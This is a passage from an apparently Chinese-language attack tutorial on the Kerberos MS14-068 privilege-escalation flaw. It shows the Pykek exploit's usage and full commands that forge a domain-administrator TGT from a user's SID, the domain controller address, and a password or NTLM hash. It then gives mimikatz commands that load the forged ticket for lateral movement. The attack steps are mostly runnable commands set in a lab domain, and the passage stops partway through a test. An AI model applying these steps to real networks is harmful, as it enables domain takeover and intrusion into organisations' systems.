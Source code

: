 利用的工具

*   Pykek

### Pykek

项目地址：[https://github.com/mubix/pykek](https://github.com/mubix/pykek)

#### 生成域管权限 TGT

通过 pykek 生成一个域管权限的的 TGT 票据，然后可以通过 mimikatz 或 impacket 导入 TGT 票据进行横向移动。

伪造域管 TGT 票据

```bash
➜  pykek python2 ms14-068.py
USAGE:
ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr>

OPTIONS:
    -p <clearPassword>
 --rc4 <ntlmHash>
➜  pykek

python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 -p 1234567
python2 ms14-068.py -u lihua@qftm.com -s S-1-5-21-1089315214-1876535666-527601790-1128 -d 192.168.1.10 --rc4 328727b81ca05805a68ef26acb252039
```

[![](assets/1701606646-6aaeeb69e952ee9c4057ee93c0cb79e5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231112013741-03b58d8a-80b9-1.png)

#### Mimikatz 加载域管 TGT 票据

```bash
kerberos::purge
kerberos::klist
kerberos::ptc TGT_lihua@qftm.com.ccache
```

1）在域主机 win11 登录的域账号 QFTM\\zhangyu 下，进行测试（加载票据 TGT 为 lihua 账户伪造的域管 PAC）
